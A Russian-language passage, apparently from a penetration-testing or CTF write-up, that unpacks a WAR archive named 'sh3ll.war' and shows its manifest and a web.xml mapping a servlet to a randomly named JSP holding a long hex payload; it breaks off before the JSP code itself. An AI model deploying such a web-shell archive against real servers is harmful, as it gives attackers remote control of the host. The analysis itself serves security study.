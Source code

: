 Соответственно, его можно разархивировать:
```text
root@kali:~# unzip -l sh3ll.war
Archive:  sh3ll.war
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2019-03-03 18:53   META-INF/
       71  2019-03-03 18:53   META-INF/MANIFEST.MF
        0  2019-03-03 18:53   WEB-INF/
      272  2019-03-03 18:53   WEB-INF/web.xml
   149034  2019-03-03 18:53   wdwxbdssjol.jsp
---------                     -------
   149377                     5 files
```

```text
root@kali:~# unzip sh3ll.war -d war
Archive:  sh3ll.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: wdwxbdssjol.jsp
```

### META-INF/MANIFEST.MF
Информация о версии:
```text
root@kali:~/war# cat META-INF/MANIFEST.MF
Manifest-Version: 1.0
Created-By: 1.6.0_17 (Sun Microsystems Inc.)
```

### WEB-INF/web.xml
Структура приложения очень простая: в данном случае просто определяется имя сервлета и jsp-файла:
```text
root@kali:~/war# cat WEB-INF/web.xml
<?xml version="1.0"?>
<!DOCTYPE web-app PUBLIC
"-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
"http://java.sun.com/dtd/web-app_2_3.dtd">
<web-app>
<servlet>
<servlet-name>zkciskwfojaugri</servlet-name>
<jsp-file>/wdwxbdssjol.jsp</jsp-file>
</servlet>
</web-app>
```

### wdwxbdssjol.jsp
Наибольший интерес представляет код внутри jsp-файла (для читаемости сокращена очень длинная hex-строка переменной `egTwYyNyGe`):
```text
root@kali:~/war# cat wdwxbdssjol.jsp
```
